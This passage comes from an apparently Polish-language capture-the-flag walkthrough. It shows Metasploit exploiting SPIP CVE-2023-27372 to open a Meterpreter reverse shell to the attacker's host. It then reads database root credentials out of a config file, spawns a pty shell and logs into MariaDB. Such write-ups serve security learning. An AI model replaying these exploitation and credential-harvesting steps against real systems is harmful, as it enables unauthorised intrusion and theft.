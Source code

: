 ```bash
msf6 exploit(unix/webapp/spip_rce_form) > [*] Running automatic check ("set AutoCheck false" to disable)
[*] SPIP Version detected: 4.2.0
[+] The target appears to be vulnerable.
[*] Got anti-csrf token: iYe2q77AjJpzr7DiCN466DffCNPeUp0xMFqKM8HZ2jA5IWNjp6Vhzoioj1CV4d/wM8wzPYKIJAYCiLEY+fBNfgPHcNshG3+b
[*] 172.16.1.111:80 - Attempting to exploit...
[*] Sending stage (39927 bytes) to 172.16.1.111
[*] Meterpreter session 1 opened (172.16.1.89:4444 -> 172.16.1.111:53128) at 2023-11-12 00:28:35 +0100

msf6 exploit(unix/webapp/spip_rce_form) > 
```
Jak widać wyżej, jest podatność  opisana w **CVE-2023-27372**, którą wykorzystaliśmy.
{: .text-justify}
# 04. Mysql
Wchodząc do katalogu /home widzimy użytkownika **angela**, to się przyda później.
{: .text-justify}
```bash
meterpreter > cd /home
meterpreter > ls
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040750/rwxr-x---  4096  dir   2023-11-11 01:18:43 +0100  angela
```
Po krótkiej analizie widać, że jest i serwer **Mysql**, na który spróbujemy wejść. Będąc w katalogu **/var/www/html/config** mamy takie coś:
{: .text-justify}
```bash
meterpreter > pwd
/var/www/html/config
meterpreter > cat connect.php
<?php
if (!defined("_ECRIRE_INC_VERSION")) return;
defined('_MYSQL_SET_SQL_MODE') || define('_MYSQL_SET_SQL_MODE',true);
$GLOBALS['spip_connect_version'] = 0.8;
spip_connect_db('localhost','','root','dbpassword','spip','mysql', 'spip','','');
```
Jest login i hasło, dzięki któremu wejdziemy na **Mysql**
{: .text-justify}
```bash
meterpreter > shell
Process 2630 created.
Channel 3 created.
python
/bin/sh: 1: python: not found
python3 -c 'import pty; pty.spawn("bash");'
www-data@pipy:/var/www/html/config$ 

www-data@pipy:/var/www/html/config$ mysql -uroot -p
mysql -uroot -p
Enter password: dbpassword

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 46
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

```